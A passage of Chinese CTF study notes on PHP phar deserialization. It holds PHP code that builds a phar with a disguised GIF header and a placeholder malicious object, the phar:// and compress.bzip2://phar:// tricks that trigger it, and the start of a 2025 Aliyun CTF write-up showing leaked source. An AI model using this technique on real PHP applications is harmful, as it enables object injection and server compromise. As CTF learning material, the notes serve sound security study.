 本地构造phar文件然后上传：

```php
<?php
$o = ... // 希望反序列化的恶意对象
$phar = new Phar("phar.phar");
$phar->startBuffering(); // 签名自动计算
$phar->setStub("GIF89a" . "<?php __HALT_COMPILER(); ?>"); // 设置stub，增加gif文件头，注意__HALT_COMPILER();必须要有
$phar->setMetadata($o); // 将自定义meta-data写入manifest 
$phar->addFromString("test.txt", "test"); // 添加要压缩的文件
$phar->stopBuffering(); 
?>
```

触发phar的方法：

 ![](attachments/495b12a1-d251-4153-8137-9c0a5f2629a8.png)

还有一些其他能触发的函数： <https://blog.zsxsoft.com/post/38>

如果有表中的函数，其参数是可控的，即可传入参数`phar://上传的phar文件路径`触发反序列化。如果参数不能以phar://开头，还可以用`[compress.bzip2://phar://](compress.bzip2://phar://)``上传的phar文件路径`

### 例题

#### 2025 阿里云CTF 打卡OK（字符逃逸）

1、通过\~泄露PHP源代码：


:::spoiler
index.php:

```php
<?php
    session_start();
    if($_SESSION['login']!=1){
        echo "<script>alert(\"Please login!\");window.location.href=\"./login.php\";</script>";
        return ;
    }
?>

<?php
include './cache.php';
$check=new checkin();
if(isset($_POST['reason'])){
    if(isset($_GET['debug_buka']))
    {
        $time=date($_GET['debug_buka']);
    }else{
        $time=date("Y-m-d H:i:s");
    }
```